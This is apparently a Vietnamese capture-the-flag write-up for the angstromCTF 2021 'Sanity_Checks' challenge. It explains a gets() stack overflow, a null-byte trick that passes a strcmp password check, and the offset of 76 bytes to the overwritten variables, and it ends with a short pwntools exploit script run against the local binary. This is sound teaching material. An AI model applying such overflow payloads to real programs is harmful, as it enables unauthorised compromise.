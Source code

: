# [angstromCTF-2021] Sanity_Checks
<p>Tại dòng 20, chương trình dùng gets để nhập vào buffer có kích thước 64 bytes -> Buffer overflow. Dòng 21 dùng strcmp(s1, "password123") để kiểm tra mật khẩu. Sau khi mật khẩu đúng, chương trình tiếp tục kiểm tra nếu các biến v7 đến v11 bằng các giá trị cố định thì in ra flag.</p>

![alt text](/thanhlai/post/pwnable/image/post4/image.png)

<p>Tính được offset để bắt đầu ghi đè lên giá trị v7 là 76. Vì v7 đến v11 đều có kiểu int nên kích thước sẽ là 4 byte -> 4 byte tiếp theo tính từ v7 sẽ là v8 và cứ thế tiếp tục.</p>

![alt text](/thanhlai/post/pwnable/image/post4/image-2.png)

<p>Để bypass hàm strcmp ở dòng 21, ta sẽ ghi chuỗi "password123" và thêm null byte để strcmp sẽ dừng và xác định 2 chuỗi là bằng nhau. Tiếp theo, padding cho đến địa chỉ của v7. Script exploit:</p>

```
from pwnable import *

p = process('./checks')

cmp = b'password123\x00'
v7 = p32(0x11)
v8 = p32(0x3d)
v9 = p32(0xf5)
v10 = p32(0x37)
v11 = p32(0x32)
payload = cmp + b'a' * (76 - len(cmp)) + v7 + v8 + v9 + v10 + v11

p.sendlineafter(b'Enter the secret word: ', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post4/image-3.png)
